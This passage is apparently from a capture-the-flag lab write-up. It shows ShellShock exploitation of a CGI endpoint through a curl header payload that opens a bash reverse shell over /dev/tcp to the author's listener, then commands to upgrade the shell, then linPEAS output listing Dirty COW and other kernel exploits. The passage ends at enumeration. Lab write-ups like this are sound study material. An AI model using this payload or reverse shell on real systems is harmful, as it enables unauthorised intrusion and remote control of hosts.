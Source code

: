 <br>

## System Access

Ok we've proven that it's vulnerable to the **ShellShock** attack let's go for a reverse shell using **bash**. I set up a listener on my system and run the following:

`curl http://192.168.81.87/cgi-bin/test -H "custom:() { ignored; }; echo Content-Type: text/html; echo ; /bin/bash -i >& /dev/tcp/<MY IP>/4444 0>&1"`

```
listening on [any] 4444 ...
connect to [<MY IP>] from (UNKNOWN) [192.168.81.87] 34177
bash: no job control in this shell
www-data@ubuntu:/usr/lib/cgi-bin$ whoami
whoami
www-data
www-data@ubuntu:/usr/lib/cgi-bin$
```

Let's clean the shell up a bit to remove the echo and make it easier to use:

`python -c 'import pty;pty.spawn("/bin/bash")'`

CTRL+Z to background the shell.

`stty raw -echo; fg`

`export TERM=xterm-256color`

Much better!

<br>

## System Enumeration

I upload **linPEAS** and run it, and it immediately comes back with **Dirty COW** as the top exploit:

```
╔══════════╣ Executing Linux Exploit Suggester 2
╚ https://github.com/jondonas/linux-exploit-suggester-2
  [1] dirty_cow
      CVE-2016-5195
      Source: http://www.exploit-db.com/exploits/40616
  [2] exploit_x
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
  [3] msr
      CVE-2013-0268
      Source: http://www.exploit-db.com/exploits/27297
  [4] perf_swevent
      CVE-2013-2094
      Source: http://www.exploit-db.com/exploits/26131
```
